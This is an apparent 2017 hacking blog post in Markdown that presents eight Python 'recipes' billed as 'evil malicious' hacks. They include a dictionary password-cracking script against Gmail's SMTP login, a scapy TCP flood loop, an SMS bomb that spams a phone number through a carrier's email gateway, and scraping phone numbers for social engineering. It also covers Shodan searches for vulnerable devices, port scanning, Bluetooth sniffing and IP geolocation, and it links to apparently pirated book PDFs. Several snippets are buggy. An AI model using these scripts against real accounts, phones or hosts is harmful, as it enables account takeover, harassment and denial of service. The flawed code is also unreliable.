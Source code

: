 ```yaml
---
title: Python for Security
date: 2017-04-08 00:00:00 Z
layout: post
comments: true
author: ex0dus
---
```


Python is one of the greatest programming languages for hackers. Not because of its easiness actually, but it is __beginner-friendly__ and __fast to deploy__. One of the best thing about the language is the resemblance to that of a natural language, sharing syntactical and semantical rules that very much look like English.

    for i in range(0, 50):
      print "Hello"

Without a doubt, Python has that pseudocode feel that gives it the edge of being an _ideal_ language for the greenhorn. But still, with the vast variety of libraries, modules and frameworks available for the language, the use of Python is also incredibly __expansive__. In this article, we are going to implement Python for the intent of penetration testing.

Take __Black Hat Python__ for example. Great book. Ever wanted to build a quick TCP server? Simple. Implement `socket`. Make an object, connect, send some header data, and await a response. Working with networking and TCP/IP has never been easier.


    host = "www.test.com"
    port = 80
    obj = socket(socket.AF_INET, socket.SOCK_STREAM)
    obj.send("GET / HTTP/1.1\r\nHost:" + host + "\r\n\r\n")
    response = obj.recv(4096)
    print response

The point is, with an ever growing collection of Python libraries and easy to deploy code, Python is ideal for the modern hacker. If you ever look at some of the source code for popular pentesting tools, you will see a large
amount of Python.

Well, today I'm more of here to talk to about some applicable code you can use in pentesting situations, where you may not always have access to a Kali machine. And maybe with some ingenuity, you can even execute
this code on a mobile device. So here are my favorite Pythonic recipes.

## 1. Extract Phone Numbers
Let's start off with something simple. Say we want to siphon some Phone Numbers from a document or some sort of webpage. We want to social engineer these numbers, but the page is just spewing a ton of bullshit we don't care much for.

    import re, urllib
    url = "www.test.com/contact.html"
    htmlFile = urllib.urlopen(url)
  	html = htmlFile.read()
    phoneNums = re.findall(r'^(\+\d{1,2}\s)?\(?\d{3}\)?[\s.-]\d{3}[\s.-]\d{4}$', html)
    print phoneNums

The core component that you need to understand is 5th line, where you would see a random string. What is it?
That is known as a __regular expression__. This is basically a special string that signifies a specific
pattern to look for. That specific regex specified looks for standard phone-numbers in these formats:

    ###-###-####
    (###) ###-####
    ### ### ####
    ###.###.####

[(source for regex)](http://stackoverflow.com/questions/16699007/regular-expression-to-match-standard-10-digit-phone-number)

## 2. Hacking SMTP (email)

With the vast collection of modules for Python, there obviously is one for __SMTP__, also known as ___Simple
Mail Transfer Protocol___. This is the protocol utilized by email services. Let's make a simple script that launches a dictionary attack on a sample Gmail account (can be utilized on other SMTP services, such as Yahoo).

    import smtplib
    username = "hackme@gmail.com"
    # Specify a wordlist
    wordlist = open("wordlist.txt", 'r')
    for i in wordlist.readlines():
          password = i.strip("\n")
          try:
              s = smtplib.SMTP("smtp.gmail.com", 587)
              s.ehlo() # identify self to server to confirm working
              s.starttls() # start secure connect
              s.ehlo
              s.login(username, str(password))
              print "Found! Password: %s" % password
              s.close
            except:
              print "OOPs something went wrong"

Let's look at a few lines. the `for` keyword takes each newline within the `wordlist.txt` and appends it as a possible password. When we look at line 8, a SMTP object is defined, connecting to the Gmail SMTP server on port 587. The SMTP object would attempt to login using with the username, and each password from within the wordlist.

## 3. TCP DoS attack
This quick script provides a way for the user to employ a quick stress.

    from scapy import *
    target = "127.0.0.1" # replace with target IP address
    port = 80
    sport = 8080 # replace with source port, or import random to randomize.
    while True:
      send(IP(dst=target) / TCP(sport=x,dport=port), inter=.005)
      print "Sent. Kill with Ctrl + C"

We look at line 6. This implements the module `scapy`. Three variables are utilized, a target address, port,
and source port. The send() method identifies that, as well as using the TCP protocol.

## 4. Searching Vulnerability with Shodan
This script implements the `shodan` API in order to find vulnerable devices/services.

    import shodan
    SHODAN_API_KEY = # key here
    # Create object
    api = shodan.Shodan(SHODAN_API_KEY)
    try:
        results = api.search("") # string to search
        print "Result: %s" % results[total]
        for result in results['matches']:
            print "IP: %s" % result['ip_str']
            print result['data']
    except shodan.APIError, e:
        print "Something went wrong"

## 5. Scanning with Nmap
Very simple host scan using the `python-nmap` module.

    import python-nmap
    ip = '127.0.0.1' # replace with target host
    scan = nmap.PortScanner()
    scan.scan(ip, '0-65535') # scan host, all ports

## 6. Sniffing Bluetooth Devices

    from bluetooth import *
    from time import *
    found = []
    def findDevices():
        foundDevs = discover_devices(lookup_names = True)
        for (addr. name) in foundDevs:
            if addr not in alreadyFound:
                print "Found Device " + str(name)
                print "MAC Address: " + str(addr)
                found.append(addr)
    while True:
        findDevices()
        sleep(5)

## 7. SMS Bomb
This script uses the `smtplib`, just as the SMTP cracker does. However,
this time it is implemented on email-2-text carrier address.

    import smtplib
    # It is important to use a disposable Gmail account
    gmail = "test@gmail"
    password = "somepassword"
    target_num = "123-456-7890@vtext.com"
    # Example Verizon SMS address. Replace with carrier address of num.
    o = smtplib.SMTP("smtp.gmail.com:587")
    o.starttls()
    o.login(gmail, password)
    message = "Something hi"
    spam_msg = "From: {} \r\nTo: {} \r\n\r\n {}".format(gmail, phone_num, message)
    counter = 20 # execute 20 times
    for i in range(counter):
          o.sendmail(gmail, phone_num, spam_msg)

## 8. Geolocation
Take an IP address, and you get back some nice juicy information about geolocation.

    import pygeoip
    # GeoIP object
    gi = pygeoip.GeoIP('GeoIP.dat') # specify database file for GeoIP.
    gi = pygeoip.GeoIP('GeoIPRegion.dat') # region
    gi = pygeoip.GeoIP('GeoIPCity.dat') # city
    gi = pygeoip.GeoIP('GeoIPISP.dat') # ISP
    ip = "127.0.0.1" # replace with IP address!
    # Country
    gi.country_name_by_addr(ip) #=> "United States" for e.g
    gi.region_by_addr(ip) #=> {'region_name': 'NY', 'country_code': 'US'}
    gi.record_by_addr(ip) #=> Returns a huge dict of stuff Im not even gonna give an example
    gi.org_by_addr(ip) #=> "Super Techcom ISP Inc. Corp."
    # More info: https://github.com/appliedsec/pygeoip/wiki
    # Even more info: http://pygeoip.readthedocs.io/en/v0.3.2/getting-started.html

  That's just some of my favorite quick delicious recipes for evil malicious Pythonic hax3z.

  As a language that includes elements of a __procedural scripting__ language and __object-oriented__ language, Python provides at-ease use for both hackers and engineers. I rely greatly on Python when it comes to writing scripts and projects, and hopefully, I'll continue to utilize it. However, to add some variation, I'll start with some projects in C, Rust and Ruby as well. Exploitation is looking nice, so that's something I'm aiming at.

  Thanks for reading, and more is coming! Here is a gr8 list of books by hackers for hackers with relevance to Python:

  * [__Black Hat Python__](http://file.allitebooks.com/20150521/Black%20Hat%20Python.pdf)
  * [__Gray Hat Python__](http://www.chinastor.org/upload/2015-08/15081917086229.pdf)
  * [__Violent Python__](https://repo.zenk-security.com/Programmation/Violent%20Python%20a%20Cookbook%20for%20Hackers-Forensic%20Analysts-Penetration%20testers%20and%20Security%20Engineers.pdf)
 * and of course, if you are a beginner YEARNING to learn, here's a great classic:
 [__Automate the Boring Stuff with Python__](https://automatetheboringstuff.com/)
